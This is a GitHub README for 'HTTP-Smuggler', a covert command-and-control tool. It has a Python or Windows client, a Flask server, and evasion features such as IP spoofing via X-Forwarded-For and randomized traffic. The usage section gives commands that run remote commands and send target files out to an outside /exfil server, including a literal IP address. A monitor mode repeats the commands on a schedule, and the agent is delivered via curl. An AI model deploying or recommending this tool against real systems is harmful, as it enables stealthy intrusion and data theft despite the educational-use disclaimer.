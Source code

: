 # HTTP-Smuggler

![Python](https://img.shields.io/badge/python-3.6%2B-blue)
![License](https://img.shields.io/badge/license-MIT-green)
![Platform](https://img.shields.io/badge/platform-windows%20%7C%20linux%20%7C%20macos-lightgrey)

Covert HTTP smuggling tool for stealthy data exfiltration and command execution, specifically optimized for reliable Remote Code Execution (RCE) operations. The agent evades detection through chunked encoding and traffic spoofing techniques while maintaining robust command-and-control connectivity. Designed for red team engagements, it supports both immediate task execution and persistent monitoring modes. The Flask server securely collects and isolates payloads with proper logging for operational security.

## Features

- **Stealthy Data Exfiltration**: Files are transferred using chunked encoding and base64 obfuscation
- **Command Execution**: Remote command execution with results exfiltrated to server
- **Monitor Mode**: Repeated command execution at specified intervals
- **Multiple Delivery Options**:
  - Python script (cross-platform)
  - Standalone Windows executable (client.exe)
- **Evasion Techniques**:
  - Random User-Agent rotation
  - IP spoofing via X-Forwarded-For
  - Request size variation with random padding
  - Randomized delay between requests
- **Server Component**: Flask-based receiver with proper data handling

## Components

### Client Options
1. **Python Script (`client.py`)**
   - Cross-platform (Windows/Linux/macOS)
   - Requires Python environment

2. **Standalone Executable (`client.exe`)**
   - Windows-only compiled version
   - Same command structure as Python script
   - No Python installation required

### Server (`server.py`)
- Flask-based receiver endpoint
- Handles both command output and file uploads
- Stores received data with timestamps
- Includes basic security measures
- The server can deliver the client agent for easy deployment. For example using `curl http://server-ip/client.py`

## Installation

1. Clone the repository:
   ```bash
   git clone https://github.com/Mattb709/HTTP-Smuggler.git
   cd HTTP-Smuggler
   ```

2. For Python version, install dependencies:
   ```bash
   pip install flask requests
   ```

## Usage

### Server Setup
```bash
python server.py
```

### Client Operations

**Using Python script:**
```bash
python client.py -c "whoami" -s http://your-server.com/exfil
```

**Using Windows executable:**
```cmd
client.exe -f newtest.txt -s http://142.134.220.83:80/exfil
```

**Execute a single command:**
```bash
python client.py -c "whoami" -s http://your-server.com/exfil
# OR
client.exe -c "whoami" -s http://your-server.com/exfil
```

**Exfiltrate a file:**
```bash
python client.py -f /path/to/file -s http://your-server.com/exfil
# OR
client.exe -f C:\path\to\file -s http://your-server.com/exfil
```

**Monitor mode (repeated execution):**
```bash
python client.py -c "netstat -ant" -s http://your-server.com/exfil -m -t 5
# OR
client.exe -c "netstat -ant" -s http://your-server.com/exfil -m -t 5
```
(Executes every 5 minutes)

## Options

| Flag | Description                                  | Required |
|------|----------------------------------------------|----------|
| -c   | Command to execute                           | Optional |
| -f   | File to exfiltrate                           | Optional |
| -s   | Server URL (default: http://mydomain.com/exfil) | No       |
| -m   | Enable monitor mode                          | No       |
| -t   | Time interval in minutes for monitor mode    | With -m  |

*Note: Options work identically in both Python script and compiled executable versions*

## Legal Disclaimer

This tool is provided for educational and authorized testing purposes only. The author is not responsible for any misuse or damage caused by this software. Always obtain proper authorization before testing any systems.

## License

MIT License - See [LICENSE](LICENSE) for details.

## Sample Images

**Server.py deployment and interaction from client:**
![img1](https://github.com/user-attachments/assets/5a233cf4-3b04-4261-b2a9-8fbe6908571e)
**Client.py operations:**
![img2](https://github.com/user-attachments/assets/a0a8b948-5d3a-4e88-a804-65a195620e1f)
